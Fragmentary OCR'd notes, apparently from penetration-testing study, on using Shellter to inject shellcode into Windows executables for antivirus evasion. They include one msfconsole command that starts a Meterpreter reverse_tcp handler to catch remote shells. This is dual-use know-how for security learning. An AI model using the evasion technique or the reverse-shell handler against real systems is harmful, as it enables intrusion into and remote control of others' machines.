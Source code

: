 # set exe policy so we can run script

# 

# 

# Automating the Process

# 

# Shellter dynamic shellcode injection, free

# 

# analysis of the target PE file and the exe path, determin where it can inject without reelying on traditional injection techniques

# 

# using existing PE importing address table enties to locate functions that will be used for mem allocation

# 

# Shellter is designed tobe run on windows, need to use wine

# 

# auto mode

# 

# enable stealth mode if you want the applciation to return to normal function

# 

# ```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```

# 

# above command to interact with Meterpreter payload
